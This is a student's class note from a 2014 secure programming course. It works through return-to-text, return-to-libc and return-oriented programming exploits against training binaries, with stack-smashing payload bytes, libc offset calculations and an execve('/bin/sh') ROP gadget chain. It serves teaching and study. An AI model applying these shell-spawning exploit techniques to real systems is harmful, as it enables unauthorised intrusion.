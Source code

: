 ```yaml
---
layout: post
title: 'Secure Programming 2014-11-04'
category: note
slug: secure-programming-20141104
---
```

2014/11/04 Secure Programming Class Note

## foo\_4

Training for "return to text" attack.

- binsh: 0x0804a030, but actual address is at 0x08048640.
- system: 0x080483e0

- `print 'a'*24 + '\xe0\x83\x04\x08' + 'aaaa' + '\x40\x86\x04\x08'`


## foo\_5

Training for "return to libc" attack.

Notice: libc.so is provided

- `objdump -d libc.so`
    - 00019970 <__libc_start_main>:
    - 0003fc40 <__libc_system>:
        - offset: 262d0

Example:

Function: libc_start_main's address is :  0xf75f5970

Function: libc_system's address is : 0xf75f5970 + 0x262d0 = 0xf761bc40

- `objdump -R foo_5`
    - 0804a01c R_386_JUMP_SLOT   __libc_start_main
- 0804a02c \<binsh\>:
    - actual address: 08048620

## foo\_6

Training for "return-oriented programming" attack.

- int 0x80
- eax: call what kind of system call. See reference for Linux system call table.
  In this problem we want to call sys_execve, so we should use "11" for eax.
- ebx, ecx: arguments for system call. In this case we put the address of
  "/bin/sh" which is 0x080be568 into ebx and no need of ecx.
- remember the number of pops, smash the stack

### Gadget 1

- first gadget: 0x080594ac
- reset eax to 0 by XOR itself
- value for `pop ebx`: 0x080be568 (/bin/sh)
- return address of first gadget: 0x0805cc5c

```nasm
80594ac:       31 c0                   xor    eax,eax
80594ae:       5b                      pop    ebx
80594af:       c3                      ret
```

### Gadget 2

- second gadget: 0x0805cc5c
- garbage value for `pop edi`: aaaa
- return address of second gadget: 0x0805cc5c
- repeat 11 times to make eax = 0x0000000b
- last return address of second gadget: 0x0806f0e0

```nasm
805cc5c:       40                      inc    eax
805cc5d:       5f                      pop    edi
805cc5e:       c3                      ret
```

### Gadget 3

third gadget: 0x0806f0e0

```nasm
806f0e0:       cd 80                   int    0x80
806f0e2:       c3                      ret
```

### Failed Gadget

Program received signal SIGSEGV in 0x080db8ce. Still don't know why :(

```nasm
80db8cd:       40                      inc    eax
80db8ce:       02 af 0a 0e 0c 41       add    ch,BYTE PTR [edi+0x410c0e0a]
80db8d4:       c3                      ret
```

Cannot use `pop eax` because 0x0000000b contains 00 which is null. It will
terminate the input string unexpectedly.

```nasm
80e205d:  58                      pop    eax
80e205e:  c3                      ret
```

## Reference

- [Linux System Call Table](http://docs.cs.up.ac.za/programming/asm/derick_tut/syscalls.html)
